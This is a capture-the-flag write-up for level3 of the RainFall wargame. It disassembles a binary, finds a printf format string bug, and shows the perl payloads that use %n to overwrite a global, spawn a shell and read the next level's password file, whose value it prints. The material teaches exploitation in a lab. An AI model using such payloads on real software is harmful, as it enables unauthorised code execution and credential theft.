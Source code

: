 # level3

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Take a look at `main`, nothing tremendous. It calls `v`:

```gdb
gdb-peda$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218                   ; 536 bytes of stack space reclaimed
   0x080484ad <+9>:     mov    eax,ds:0x8049860            ; eax = stdin
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax     ; push stdin to stack
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200   ; push 512 to stack
   0x080484be <+26>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>       ; call fgets
   0x080484cc <+40>:    lea    eax,[ebp-0x208]             ; load buffer address in eax
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax         ; push eax to stack
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>      ; call printf
   0x080484da <+54>:    mov    eax,ds:0x804988c            ; eax = data segment variable (that equals 0 here)
   0x080484df <+59>:    cmp    eax,0x40                    ; compare eax to 0x40 (64 in decimal)
   0x080484e2 <+62>:    jne    0x8048518 <v+116>           ; jump to leave instruction if not equal
   0x080484e4 <+64>:    mov    eax,ds:0x8049880            ; eax = stdout
   0x080484e9 <+69>:    mov    edx,eax                     ; edx = eax
   0x080484eb <+71>:    mov    eax,0x8048600               ; eax = 0x8048600 (contains "Wait what?!\n")
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx     ; push edx to stack
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc     ; push 12 to stack
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1     ; push 1 to stack
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax         ; push eax to stack (arg[0])
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>      ; call fwrite
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d   ; push address 0x804860d (contains "/bin/sh") to stack
   0x08048513 <+111>:   call   0x80483c0 <system@plt>      ; call system
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```

We notice numerous calls: `fgets`, `printf`. `fwrite` and `system`. Also, a conditionnal jumps seems to lead to the end
of the function without executing `fwrite` and `system`.

We look at the content of the address `0x804860d` (do `x/s 0x804860d` command in gdb) pushed on the stack before the
call to `system`, which is the string `"/bin/sh"`.

So we know that we don't have to jump after the `0x080484df <+59>:    cmp    eax,0x40` instruction to reach this
`system` call.

Since `fgets` protects from a buffer overflow attack, we look for `printf` vulnerabilities, and find [this
document](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) (also attached in
'Ressources' directory) about the format string one.

This will allow us to write the value `0x40` (64 in decimal) in the address `0x804988c` which is copied to `eax` before
the `cmp eax,0x40` instruction. Here is how to proceed.

## Exploit

First of all, we inject as many `%x` conversion as needed to make printf move forward through the stack and reach the
address where the string we have provided is stored.

```console
level3@RainFall:~$ perl -e 'print "AAAA %08x %08x %08x %08x\n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 | ./level3
AAAA 00000200 b7fd1ac0 b7ff37d0 41414141
```

Here we have read the first 16 bytes of the stack, and we know that the 4th converted argument that `printf` is the
address of the supplied string (`AAAA` => `41414141`).

We can now use the `%n` conversion which prints the number of characters written so far by `printf` to write the value
64 in the address `0x804988c`.

```console
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x0812345678901234567890123456789012345678901%x%x%x%n"' > /tmp/level3
level3@RainFall:~$ cat /tmp/level3 - | ./level3
...
[hit return, some garbage display]
...
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
